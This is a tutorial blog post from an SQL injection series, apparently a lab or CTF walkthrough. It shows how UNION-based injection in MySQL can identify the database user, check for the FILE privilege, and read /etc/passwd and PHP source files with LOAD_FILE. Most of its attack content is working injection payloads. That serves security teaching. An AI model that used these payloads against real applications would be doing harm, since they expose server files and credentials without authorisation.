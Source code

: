 ```yaml
---
title: "SQLi Series - Reading Files through SQL Injection - 08"
seoTitle: "SQL Injection: Reading Files Tutorial"
seoDescription: "Explore how SQL Injection can be used to read and write files on servers, highlighting the importance of user privileges and techniques"
datePublished: Sun Apr 21 2024 19:18:01 GMT+0000 (Coordinated Universal Time)
cuid: clv9wuuko00000ala6ga60cbd
slug: sqli-series-reading-files-through-sql-injection-08
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713727062162/84a6acf3-3c23-48d6-aa65-a184b3a49225.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713727065694/7c186fc2-c097-45de-803b-1b431463a95a.png
tags: sqlinjection, redteaming, pente

---
```


## **Introduction**

* SQL Injection can be used for more than just gathering data from tables and databases
    
* It can also be leveraged to read and write files on the server
    
* In some cases, it can even lead to remote code execution on the back-end server
    

## **Privileges**

* Reading data is more common than writing data
    
* Writing data is strictly reserved for privileged users in modern DBMSes
    
* In MySQL, the DB user must have the FILE privilege to load a file's content into a table and read files
    
* Gathering data about user privileges within the database is important to determine read/write capabilities
    

### Diagram

![](https://imgr.whimsical.com/thumbnails/e3KByHu39W3Q3DKow27cp/FSqG89kjXDYpA2eVKYA2ES align="center")

## **Determining the DB User**

* Finding the current DB user is the first step
    
* Database administrator (DBA) privileges are not always necessary to read data, but are becoming more required in modern DBMSes
    
* DBA privileges increase the likelihood of having file-read privileges
    
* If not a DBA, checking user privileges is crucial to see what actions can be performed
    

Queries to find the current DB user:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

UNION injection payload:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726897409/f0b017ad-6a59-4899-b5e7-5efd06266094.png align="center")

Example:

* The query reveals the current user is `root`
    
* A `root` user is likely to be a DBA, granting many privileges
    

## **Checking User Privileges**

* After identifying the user, the next step is to check their privileges
    
* Testing for super admin privileges can be done with the following query:
    

```sql
SELECT super_priv FROM mysql.user
```

UNION injection payload:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

* If there are multiple users, adding `WHERE user="root"` will show privileges only for the current `root` user:
    

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

Example:

* The query returns `Y`, indicating superuser privileges
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726914947/32646725-0e52-46e0-beee-83e3107a61f6.png align="left")

* Privileges can also be dumped directly from the schema using the following query:
    

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726921027/3f01a254-19ae-408d-89c4-1d45b0efb481.png align="left")

* Adding `WHERE grantee="'root'@'`[`localhost`](http://localhost)`'"` will show privileges only for the current `root` user:
    

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

Example:

* The query reveals all privileges granted to the current `root` user
    
* The `FILE` privilege is listed, enabling file read and potentially write access
    

## **Reading Files with LOAD\_FILE**

* The `LOAD_FILE()` function in MariaDB/MySQL can be used to read data from files
    
* It takes the file name as its argument
    
* Example query to read the `/etc/passwd` file:
    

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: The file will only be readable if the OS user running MySQL has sufficient privileges.

UNION injection payload:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

Example:

* The query successfully reads the contents of the `passwd` file through the SQL injection
    
* This technique can potentially be used to leak application source code as well
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726928144/24bd1ca3-d811-4c8e-9b9b-6e584ef2d8a8.png align="left")

## **Reading Application Source Code**

* Knowing the current page is `search.php`, an attempt can be made to read its source code
    
* The default Apache webroot is `/var/www/html`
    

UNION injection payload:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Example:

* The query retrieves the entire PHP code of `search.php`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726935019/a41928be-ef1e-42f6-bddc-45ed3ebb0732.png align="left")

* The HTML source can be viewed by pressing \[Ctrl + U\]
    
* The source code could be inspected further to find sensitive information like database connection credentials or additional vulnerabilities
    
* Found the config.php file is the file containing sensitive info by inspecting search.php file.
    
* <mark>Found the flag:</mark>
    
* ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713728274097/0027a1aa-35ea-4535-a360-8e9e7ca523ef.png align="center")
    

## **Conclusion**

* SQL Injection is a powerful technique that goes beyond data retrieval
    
* With sufficient privileges, it can be used to read and potentially write files on the server
    
* Determining the current DB user and their privileges is crucial for assessing file read/write capabilities
    
* The `LOAD_FILE()` function in MySQL/MariaDB enables reading files through SQL injection
    
* This technique can be leveraged to leak application source code and uncover sensitive information or vulnerabilities